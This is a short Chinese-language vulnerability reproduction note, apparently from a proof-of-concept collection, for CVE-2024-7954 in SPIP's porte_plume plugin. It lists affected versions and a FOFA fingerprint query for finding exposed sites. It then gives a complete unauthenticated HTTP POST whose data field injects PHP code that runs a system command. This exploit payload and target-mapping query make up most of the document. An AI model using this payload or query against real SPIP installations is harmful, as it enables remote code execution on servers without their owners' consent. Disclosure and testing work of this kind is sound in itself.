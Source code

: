 # SPIP插件porte_plume存在任意PHP执行漏洞(CVE-2024-7954)

# 一、漏洞简介
SPIP 4.30-alpha2、4.2.13、4.1.16之前的版本使用的porte_plume插件存在任意代码执行漏洞，远程未经身份验证的攻击者可以通过发送精心设计的HTTP 请求以SPIP用户身份执行任意PHP代码。

# 二、影响版本
SPIP插件porte_plume

# 三、资产测绘
+ fofa`icon_hash=="-1224668706"`
+ 特征

![1725074957647-c35def1f-98a2-4638-8491-08b2d4d9feef.png](./img/MgI_aUY7wIBqRyz7/1725074957647-c35def1f-98a2-4638-8491-08b2d4d9feef-386188.png)

# 四、漏洞复现
```java
POST /index.php?action=porte_plume_previsu HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.178 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

data=AA_[<img111111>->URL`<?php system("id");?>`]_BB
```

![1724987402306-140c705e-9e86-409c-a1d9-55ba7910f820.png](./img/MgI_aUY7wIBqRyz7/1724987402306-140c705e-9e86-409c-a1d9-55ba7910f820-580953.png)



> 更新: 2024-09-05 23:21:35  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/gzh7mvbhub0l35ct>